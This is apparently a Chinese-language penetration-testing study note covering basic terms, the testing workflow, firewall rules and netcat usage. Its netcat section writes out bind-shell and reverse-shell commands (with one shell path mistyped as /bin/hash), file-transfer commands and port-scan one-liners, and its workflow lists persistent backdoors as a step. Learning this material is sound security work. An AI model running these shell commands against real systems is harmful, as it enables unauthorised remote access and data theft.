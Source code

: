 # 渗透测试流程与标准与信息收集
---
## 问题集
>渗透的基本概念有哪些？
>如何简单能理解服务器架构？如何使用宝塔建站？
>渗透测试的流程是什么？
>防火墙的基本知识
>nc瑞士军刀的使用
>信息收集收集什么，怎么收集？
## 1. 基本渗透概念
### 核心概念
**POC**
全称'Proof of Concept',中文'概念验证',常指一段漏洞证明的代码
**EXP**
全称'Exploit',中文'利用',指利用漏洞进行攻击的动作
**Payload**
中文'有效荷载',指成功exploit后，真正在目标系统执行的代码或者指令
**Shellcode**
简单翻译'shell代码',是payload的一种，由于其建立正向/反向的shell得名
相关的概念还有很多，更多详细内容请参考[这篇博客](https://www.cnblogs.com/sunny11/p/13583083.html)
## 2. 服务器架构简单理解
**服务器架构的简单理解**
客户端（浏览器\APP\PC应用\...）<-->服务器（JAVA\PHP\Python\\...）<-->数据库（MySQL\Oracle\Excel\\...）
## 3. 渗透测试流程

**明确目标**
1. 根据范围
2. 根据类型

**信息收集**
1. 收集的方式
- 主动扫描
- 开放搜索
2. 类型
- 基本信息收集（ip、网段、域名、端口）
- 操作系统
- 中间件
- 脚本
- 数据库
- CMS源码
- 社工信息（联系信息、人员信息、公司信息、域名/服务器的注册商）

**漏洞验证**
1. 手工验证（主要）
2. 自动化验证
3. 登陆猜解

**信息分析**
1. 绕过防御机制（WAF、防火墙）
2. 定制攻击路线（内网、间接、直接）
3. 绕过检测机制（代码检查）
4. 攻击代码

**获取所需**
1. 获取内部信息
2. 进一步渗透
3. 持续性存在后门

**信息整理与报告**
形成渗透测试报告

## 防火墙的基本知识
1. 入站规则
通过网络访问信息系统时采取的安全措施，通常包括防火墙、入侵检测系统、防病毒系统、访问控制列表（ACL）和其他安全设备。主要目的是防止未经授权的网络流量进入网络，并阻止传播恶意代码、垃圾邮件及其他危害安全的流量。（简单理解就是通过一定规则来控制访问主机的流量）
2. 出站规则
在内部向外部发送数据时采取的安全措施。主要是防止未经授权的网络流量从内部网络出发，以及防止数据泄露。出站规则一般包括访问控制列表、加密、防病毒和其他安全设施（简单理解就是通过一定的规则控制从主机出去的网络流量）
## nc瑞士军刀的使用
1. 简介
NetCat简称nc，在网安界有“瑞士军刀的美称”。可以通过TCP/UDP协议进行读写，是一个好用稳定的连接系统后门的工具，同时也是一个网络调试和开发工具。它的英文介绍或许能让我们有更深刻的理解。（netcat (often abbreviated to nc) is a computer networking utility for reading from and writing to network connections using TCP or UDP.）
2. 参数
>-l:开启监听
>-p:指定端口
>-t:以telnet形式应答
>-e:程序重定向
>-n:以数字形式标识ip
>-v:显示执行命令的过程
>-z:不进行交互，直接输出结果
>-u:使用UDP协议进行传输
>-w:设置超时时间
>-d:后台执行
3. 基础使用
- 简单聊天
```
//服务端
nc.exe -lp 5566
//客户端
nc.exe 127.0.0.1 5566
```
这就建立了一个简单的聊天窗口，可以通过端口5566进行聊天
- 正向返回shell
```
//服务端
nc.exe -lp 5566 -e cmd.exe
//客户端
nc.exe [服务端ip] 5566
```
- 反弹shell
```
//windows环境下

//服务端
nc.exe -lvp 5566
//客户端
nc.exe -e cmd.exe [服务端ip] 5566
```
``` 
//Linux环境下

//服务端
nc -lvp 5566
//客户端
nc -e /bin/hash [服务端ip] 5566
```
二者都能将shell给到其他电脑并在其他电脑上执行。正向可理解为自己主动把shell从端口传出去，让别人来执行。反弹可理解为开个端口等着别人把shell送上来给自己执行。
- 文件传输
```
//客户端传服务端

//服务端
nc.exe -lp 5566 >outfile.txt
//客户端
nc.exe [服务端ip] 5566 <a.txt
```
```
//服务端传客户端

//服务端
nc.exe -lp 5566 <outfile.txt
//客户端
nc.exe [服务端ip] 5566 >a.txt
```
可以将"<"符号看作喇叭，文件从闭口处传到开口处。或许能更好的分辨他们
- 信息探测
端口扫描（kali执行）
```
nc -n -v -w1 -z [需要扫描的ip] 1-1000
```
打印Banner（kali执行）
```
echo " " |nc -n -v -w1 [扫描的ip] 1-1000
```